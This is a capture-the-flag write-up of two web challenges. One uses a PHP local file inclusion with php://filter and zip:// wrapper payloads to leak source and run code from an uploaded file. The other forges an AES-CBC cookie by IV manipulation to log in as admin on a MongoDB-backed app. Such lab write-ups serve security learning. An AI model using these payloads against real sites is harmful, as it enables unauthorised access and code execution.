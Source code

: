 Participated as Ad Victoriam.

## web200

I've found a LFI vulnerability in a GET parameter by testing the parameter in the `index.php`.
It sounded more like that the code executes in the form of `include(null_filter($var).".php");`.

Later on, I've tried `php://filter` on the param and I was able to leak out the sourcecode of the `upload.php`.
`(index.php?mode=php://filter/convert.base64-encode/resource=upload)`

As we look further of how `upload.php` work,
we find out that the file checks for the extension but does not check the contents of the file.

Based on this information, we can think about zipping the file and load the php script from the zip file.

The possible payload from this can be `index.php?mode=zip:///var/www/owlur/owlur-upload-zzzzzz/*returned_filename_from_upload_php*.jpg%23*your_real_payload*`

Through this method you will be able to list the directory and read files, and eventually let you to read the file named `OWLUR-FLAG.txt` on the `/` directory.

```
GET: index.php?zip:///var/www/owlur/owlur-upload-zzzzzz/tqpmLQ2.jpg%23stypr

Response:
owlur
pwning complete by stypr
FLAG->PHP fILTerZ aR3 c00l buT i pr3f3r f1lt3r 0xc0ffee
```

--

## web400

The database seemed to be truncated every 15 minutes or so, and you can find out that the 'admin' username is taken whenever the database gets truncated.

The best possible case is to try a sql injection based on the functionality of mongodb and python.
As we move on, by reading the `index.py` script given from the ctf, we find out thaat the script encrypts the `auth` param in the cookie with AES-CBC encryption which is vulnerable to padding attacks.

Moreover, if we think about the code `user = g.db.users.find_one(get_cookie())` and the outline of how mongodb works,
we can actually remove the password parameter and let the cookie have the username only in it.

```
python: {"u":"username", "pw":"stypr"}
mongodb: SELECT * FROM (unknown) WHERE u='username' and pw='stypr'

python: {"u":"username"}
mongodb: SELECT * FROM (unknown) WHERE u='username'
```

Based on the things we kept in our mind, we just need to make the auth cookie to have `{"u":"admin"}\x03\x03\x03` as the plaintext.


```
- cbc padding vulnerability
    $ python
    ... (stripped - it does "plaintext xor iv xor fake_text" to create a fake iv) ...
    >>> print(base64.b64encode(malformed_iv+original_data))
        2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo=

- setting up the cookie (I just had put this on a javascript console)
    document.cookie="auth=2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo;"

- the response I've got
    <h2>Logged in as admin</h2> 
    ...
    <span class="badge badge-important">1</span><span class="btn btn-link" onclick="play('the_owls_are_watching_again')">THIS IS THE KEY</span></br></br>
```